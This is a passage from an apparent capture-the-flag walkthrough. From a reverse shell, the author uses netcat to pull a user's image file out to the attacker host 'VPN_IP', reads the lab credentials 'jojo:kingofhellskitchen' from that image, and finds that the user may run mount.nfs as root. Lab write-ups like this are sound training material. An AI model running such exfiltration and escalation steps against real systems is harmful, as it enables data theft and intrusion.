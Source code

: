 Let's get it on our machine, we can use netcat for it:

```
# On our machine

sudo nc -lvnp 80 > boss.jpg

# On reverse shell

nc VPN_IP 80 < /home/sandra/Pictures/boss.jpg 
```

We can see this on the picture:

![Pasted image 20250702182020.png](../../IMAGES/Pasted%20image%2020250702182020.png)

We got credentials for `jojo`:

```
jojo:kingofhellskitchen
```

![Pasted image 20250702182056.png](../../IMAGES/Pasted%20image%2020250702182056.png)

If we check our sudo permissions, we notice this:

```
jojo@tonhotel:/tmp$ sudo -l
[sudo] password for jojo:
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```
